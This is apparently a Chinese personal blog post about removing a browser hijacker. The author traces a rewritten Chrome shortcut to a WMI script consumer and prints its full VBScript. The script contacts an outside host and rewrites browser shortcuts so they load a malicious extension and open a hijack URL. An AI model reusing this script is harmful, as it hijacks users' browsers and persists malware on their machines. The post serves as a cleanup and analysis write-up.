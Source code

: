 ```yaml
---
title: 修复恶意篡改浏览器快捷方式
categories:
- tech
---
```


记录一次删除恶意插件的过程。

---

<!-- more -->

下软件的时候明显发现不对劲，提示系统有漏洞，要下载什么补丁，虽然马上关了，但是发现过了一会又弹出来几个外国网站。最后发现是有一个chrome扩展在自动加载，路径在`C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk`

然后每次打开chome的时候都会打开一个网站，查看快捷方式发现被改了，目标 `"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"  --load-extension="C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk" http://fanli90.cn/`

每次删掉过了一段时间又会重新加上，这才认定——系统被蛀了~！

用ProcessMonitor监视发现：

![]({{site.upload | relative_url}}/2017-01-19/20170119103430.jpg)

有系统进程在修改快捷方式！

安装后打开WMI event viewer，点击左上角register for events，弹出Connect to namespace框，填入“**root\subscription**”（root\CIMV2），确定，filter改为Consumers，出现下图：

![]({{site.upload | relative_url}}/2017-01-19/20170119103105.jpg)

虽然看不懂什么意思，但是注意到中间的script我就意识到，这种情况一般都是由脚本自动执行产生的，于是点进去查看，果然发现：

![]({{site.upload | relative_url}}/2017-01-19/20170119103120.jpg)

将ScriptText复制出来查看后发现罪魁祸首：

```
Dim xmlHttp:Dim homePageUrl:Set xmlHttp = CreateObject("MSXML2.XMLHTTP"):xmlHttp.open "GET", "http://bbtbfr.pw/GetHPHost?"&Timer(), False:On Error Resume Next:xmlHttp.send:if xmlHttp.status = 200 then:homePageUrl= xmlHttp.responseText:end if:Dim objFS:Set objFS = CreateObject("Scripting.FileSystemObject"):On Error Resume Next : link = homePageUrl: linkChrome = " --load-extension=""C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk"" " + homePageUrl:browsers = Array("IEXPLORE.EXE", "firefox.exe", "360SE.exe", "SogouExplorer.exe", "opera.exe", "Safari.exe", "Maxthon.exe", "TTraveler.exe", "TheWorld.exe", "baidubrowser.exe", "liebao.exe", "QQBrowser.exe","chrome.exe","360chrome.exe"):ChromeBrowsers = Array("chrome.exe","360chrome.exe"):Set BrowserDic = CreateObject("scripting.dictionary"):For Each browser In browsers:BrowserDic.Add LCase(browser), browser:Next:Set ChromeBrowserDic = CreateObject("scripting.dictionary"):For Each ChromeBrowser In ChromeBrowsers:ChromeBrowserDic.Add LCase(ChromeBrowser), ChromeBrowsers:Next:Dim FoldersDic(12):Set WshShell = CreateObject("Wscript.Shell"):FoldersDic(0) = "C:\Users\Public\Desktop":FoldersDic(1) = "C:\ProgramData\Microsoft\Windows\Start Menu":FoldersDic(2) = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs":FoldersDic(3) = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup":FoldersDic(4) = "C:\Users\Administrator\Desktop":FoldersDic(5) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu":FoldersDic(6) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs":FoldersDic(7) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup":FoldersDic(8) = "C:\Users\Administrator\AppData\Roaming":FoldersDic(9) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch":FoldersDic(10) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\StartMenu":FoldersDic(11) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar":Set fso = CreateObject("Scripting.Filesystemobject"):For i = 0 To UBound(FoldersDic):For Each file In fso.GetFolder(FoldersDic(i)).Files:If LCase(fso.GetExtensionName(file.Path)) = "lnk" Then:set oShellLink = WshShell.CreateShortcut(file.Path):path = oShellLink.TargetPath:name = fso.GetBaseName(path) & "." & fso.GetExtensionName(path):If BrowserDic.Exists(LCase(name)) Then:If ChromeBrowserDic.Exists(LCase(name)) Then:oShellLink.Arguments = linkChrome:else:oShellLink.Arguments = link:End if:If file.Attributes And 1 Then:file.Attributes = file.Attributes - 1:End If:oShellLink.Save:End If:End If:Next:Next:createobject("wscript.shell").run "cmd /c taskkill /f /im scrcons.exe", 0
```

于是将ActiveScriptEventConsumer.Name="ASEC"整个删除。整个世界安静了。


**参考**

[http://blog.sina.com.cn/s/blog_8627ac3c010195ri.html](http://blog.sina.com.cn/s/blog_8627ac3c010195ri.html)  
[http://blog.csdn.net/scgump/article/details/50698443](http://blog.csdn.net/scgump/article/details/50698443)  
[http://www.05935.com/bc/180282/](http://www.05935.com/bc/180282/)
